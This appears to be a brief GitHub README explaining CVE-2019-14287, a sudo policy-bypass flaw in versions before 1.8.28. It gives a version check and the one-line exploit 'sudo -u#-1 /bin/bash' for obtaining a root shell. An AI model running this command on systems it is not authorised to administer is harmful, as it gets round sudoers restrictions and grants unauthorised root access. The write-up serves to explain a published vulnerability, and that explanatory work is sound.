 # Privilege Escalation in Sudo-1.8.27

## What's sudo?

Sudo is a program for Unix-like computer operating systems that enables users to run programs with the security privileges of another user, by default the superuser.

## The vulnerability

The sudo vulnerability **CVE-2019-14287** is a security policy bypass issue that provides a user or a program the ability to execute commands as root on a Linux system when the "sudoers configuration" explicitly disallows the root access. Exploiting the vulnerability requires the user to have sudo privileges that allow them to run commands with an arbitrary user ID, except root.

### Affected version

< 1.8.28

### How to explore

1. First step is discovery sudo version:

```
sudo -V
```

2. If the version is vulnerable, run the follow command to get a root bash:

```
sudo -u#-1 /bin/bash
```
